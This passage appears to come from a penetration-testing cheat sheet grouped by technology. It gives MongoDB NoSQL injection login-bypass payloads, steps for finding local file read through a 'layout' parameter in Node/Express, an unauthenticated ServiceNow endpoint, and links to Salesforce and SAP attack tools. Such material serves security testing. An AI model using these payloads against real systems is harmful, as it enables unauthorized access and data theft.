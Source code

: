 - https://www.offsec.com/offsec/wekan-authentication-bypass/

## Mongo


(Mongo IDs can lead to IDOR)[https://www.mickaelwalter.fr/idor-with-mongodb-understanding-objectid/]

```
username[$ne]=toto&password[$ne]=toto

{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt":""}, "password": {"$gt":""}
```

## Next.JS

Look for _buildManifest.js in source coode, it exposes routes inside sortedPages.

## Node/Express

1. If the target is responding with X-Powered-By: Express and there is HTML in responses, it’s highly likely that NodeJs with server-side templating is being used
2. Add layout in your wordlist of parameter discovery/fuzzing for GET query or POST body. 
3. If the arbitrary value of layout parameter added is resulting in 500 Internal Server Error with ENOENT: no such file or directory in body, You have hit the LFR. 

https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/

## Pentaho

- https://research.aurainfosec.io/pentest/pentah0wnage/

## Salesforce

- [Exploitation](https://web.archive.org/web/20210812053905/enumerated.de/index/salesforce)
- https://github.com/reconstation/sret
- https://github.com/Ph33rr/cirrusgo

## SAP

- [SAP_RECON](https://github.com/chipik/SAP_RECON)
- [SAP-wordlist](https://github.com/emadshanab/SAP-wordlist/blob/main/SAP-wordlist.txt)
- [mySapAdventures](https://github.com/shipcod3/mySapAdventures)

## ServiceNow

- kb_view_customer.do?sysparm_article=KB00XXXXX, unauth endpoint sometimes return data

## Sharepoint
